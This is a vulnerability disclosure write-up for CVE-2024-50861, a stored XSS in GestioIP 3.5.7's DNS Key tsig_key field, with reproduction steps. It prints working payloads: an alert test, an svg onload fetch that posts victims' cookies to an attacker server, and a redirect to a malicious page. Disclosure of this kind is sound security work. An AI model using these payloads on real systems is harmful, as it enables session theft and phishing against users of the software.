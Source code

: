```yaml
---
title: "CVE-2024-50861. GestioIP Vulnerability: Stored XSS"
description: Stored Cross-Site Scripting
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
lang: en
tags:
  - vulnerability
  - CVE
  - Stored
  - XSS
---
```

# CVE-2024-50861

- [Information](#information)
	- [Description](#description)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Steps to Reproduce](#steps-to-reproduce)


## Information

### Description

The `ip_mod_dns_key_form.cgi` request is vulnerable to Stored XSS (Stored Cross-Site Scripting). An attacker can save malicious content in the "TSIG Key" (tsig_key) field, which could allow for data exfiltration and enable CSRF (Cross-Site Request Forgery) attacks.


**Versions Affected:**  3.5.7

## Proof-of-Concept Exploit

### Description

The http://localhost/gestioip/res/ip_mod_dns_key_form.cgi feature of GestioIP 3.5.7 is vulnerable to Stored XSS. An authenticated attacker with appropriate permissions can inject malicious code into the *tsig_key* form field and save it to the database. Once saved, any user who accesses the "*DNS Key*" page will trigger the Stored XSS, leading to the execution of malicious code.


### Steps to Reproduce


1. **Enable "DNS Key" Feature**

First, ensure that "Dynamic DNS updates" is enabled in the global configuration:

Manage > Manage GestioIP > Global Configuration > Dynamic DNS updates enabled: yes


![](CVE-2024-50861.png)


This will enable the following menus:

- Manage > DNS Keys

- Manage > DNS Update User



2. **Create a DNS Key Entry**

To **create a new** *DNS key* entry and also **edit** an existing one, the user must belong to a group with the "Manage Sites And Categories" permission. By default, "Admin" and "GestioIP Admin" groups have this permission.

Also, you can configure this permission to any group under:

Manage > User Groups > Manage Sites and Categories

![|645](CVE-2024-50861-1.png)

3. **Enter payload**

Once group permission is set, input one of the following payloads into the "TSIG Key" (*tsig_key*) field and save it:


**1 - Test basic XSS**

`<script>alert("test")</script>`

We can verify the value was saved to the MySQL database:

![](CVE-2024-50861-2.png)


**2 - Send data (cookies) to the attacker's server**

`<svg/onload="fetch('http://10.20.0.1:8000/steal_data',{method:'POST',body:document.cookie})">`

The attacker server receives a POST request with data that can be saved:

![](CVE-2024-50861-4.png)


**3 - Redirect the user to a malicious site**

`<svg/onload="window.location='http://10.20.0.1:8090/malicious_page.html'">`


![](CVE-2024-50861-5.png)



User is redirected:

![](CVE-2024-50861-7.png)


GET request that's received by the attackers server:

![](CVE-2024-50861-6.png)



DANGER:
Once the payload is saved into *tsig_key*  field, **any authenticated user** (even those with "Read-Only" permissions) can access the "DNS Key" page, triggering the Stored XSS (provided that "Dynamic DNS updates enabled" is set to "yes").


Obs
By default, this field *tsig_key* is 150 char long



![](CVE-2024-50861-3.png)